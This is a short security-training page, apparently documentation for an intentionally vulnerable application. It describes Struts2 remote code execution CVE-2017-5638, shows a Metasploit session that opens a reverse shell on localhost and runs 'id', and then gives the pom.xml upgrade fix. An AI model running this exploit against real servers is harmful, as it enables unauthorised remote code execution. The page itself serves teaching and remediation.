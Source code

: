# Using Components with Known Vulnerability

The version of struts2 used in the application is vulnerable to a remote code execution vulnerability CVE-2017-5638.
This vulnerability can be exploited to execute arbitrary code on the system hosting the application.

```
msf exploit(struts2_content_type_ognl) > exploit

[*] Started reverse TCP handler on 127.0.0.1:4444
[*] Command shell session 1 opened (127.0.0.1:4444 -> 127.0.0.1:57204) at 2017-08-09 14:01:53 +0530

id
uid=501(user) gid=20(staff) groups=20(staff)
```

## Solution

The issue exists due to a vulnerable version of Struts2 being used in the application. The advisory suggests that this
vulnerability is fixed in Struts version 2.3.32 and 2.5.10.1 onwards. The version of struts2 can be updated in the
application by changing in _pom.xml_ file:

```xml
<properties>
        <struts2.version>2.3.32</struts2.version>
        [...]
</properties>
```

## Reference

* [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5638](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5638)




